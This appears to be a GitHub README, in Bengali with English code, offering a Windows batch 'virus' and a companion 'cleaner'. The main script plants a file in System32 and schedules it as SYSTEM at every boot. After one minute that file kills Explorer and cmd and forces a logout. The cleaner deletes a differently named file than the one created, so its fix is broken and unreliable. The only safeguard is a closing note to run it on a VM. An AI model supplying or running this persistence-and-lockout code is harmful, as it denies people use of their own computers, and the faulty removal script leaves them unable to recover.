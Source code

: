 # Pc-Stop-virus-

✅ আমাদের প্রয়োজন অনুযায়ী BAT Script:
(virus_block_permanent.bat) ফাইল এর কোড দেওয়া হল

``
@echo off
:: Path where the blocking script will live
set "blocker=%windir%\System32\_block.live

:: Write the actual blocking script
echo @echo off > "%blocker%"
echo timeout /t 60 /nobreak >nul >> "%blocker%"
echo taskkill /f /im explorer.exe >> "%blocker%"
echo taskkill /f /im cmd.exe >> "%blocker%"
echo shutdown /l /f >> "%blocker%"

:: Schedule it to run every boot
schtasks /create /tn "SystemBlocker" /tr "%blocker%" /sc onstart /ru SYSTEM /f

:: Notify user
echo.
echo ======================================================
echo   !!! System is now infected !!!
echo   On every boot, it will work only 1 minute...
echo   After 1 minute, your system will go dark!
echo   To fix, run the antivirus cleaner within 1 minute.
echo ======================================================
pause

``


🧯 Antivirus Cleaner Script: (antivirus_fix.bat)
``
@echo off
:: Delete the scheduled task
schtasks /delete /tn "SystemBlocker" /f

:: Delete the blocking script
del %windir%\System32\_block.bat /f

:: Restart Explorer UI
start explorer.exe

:: Success message
echo.
echo ================================
echo ✅ Virus removed successfully!
echo Your system is now clean.
echo ================================
pause
``


💡 কীভাবে এটা কাজ করবে:
ধাপ	ব্যাখ্যা
🔹 virus_block_permanent.bat চালাও	এটা blocking স্ক্রিপ্ট তৈরি করে ও schedule করে
🔹 Computer Restart করো	শুধু ১ মিনিট সব কাজ করবে
🔹 ১ মিনিট পরে	system logout বা UI বন্ধ হয়ে যাবে
🔹 আবার Restart দিলে	আবার সেই একই ১ মিনিট timer
✅ যদি antivirus_fix.bat ১ মিনিটের মধ্যে চালাও	তাহলে task delete হয়ে যাবে, system ঠিক হয়ে যাবে

⚠️ গুরুত্বপূর্ণ সতর্কতা:
এটি শুধুমাত্র VM বা Test PC-তে চালাও!

